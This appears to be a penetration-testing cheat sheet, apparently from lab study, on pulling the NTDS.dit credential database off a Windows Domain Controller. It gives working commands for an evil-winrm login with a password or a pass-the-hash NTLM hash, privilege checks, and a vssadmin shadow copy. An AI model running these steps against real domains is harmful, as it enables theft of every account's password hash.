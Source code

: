 ## 🎫 NTDS.dit Extraction and Analysis

### What is NTDS.dit?
**NT Directory Services Directory Information Tree** contains:
- **All domain usernames** and attributes
- **Password hashes** (NTLM) for every domain account
- **Group memberships** and permissions
- **Security descriptors** and access controls
- **Kerberos keys** and other authentication data

**Location**: `%systemroot%\ntds\NTDS.dit` (usually `C:\Windows\NTDS\NTDS.dit`)

### Prerequisites for NTDS.dit Access
- **Local Administrator** rights on Domain Controller, OR
- **Domain Administrator** rights, OR
- **Backup Operators** group membership, OR
- **Other equivalent privileges**

### Method 1: Direct Access (If You Have DC Access)

#### Step 1: Connect to Domain Controller
```bash
# Use discovered credentials to connect
evil-winrm -i 10.129.201.57 -u jmarston -p 'Password123!'

# Or with hash (Pass-the-Hash)
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

#### Step 2: Check Privileges
```powershell
# Check local group membership
net localgroup

# Check user privileges including domain
net user jmarston

# Look for these key memberships:
# - Local Group Memberships: *Administrators
# - Global Group memberships: *Domain Admins
```

#### Step 3: Create Volume Shadow Copy
```powershell
# Create VSS snapshot of C: drive
vssadmin CREATE SHADOW /For=C:

# Example output:
# Successfully created shadow copy for 'C:\'
#     Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
#     Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
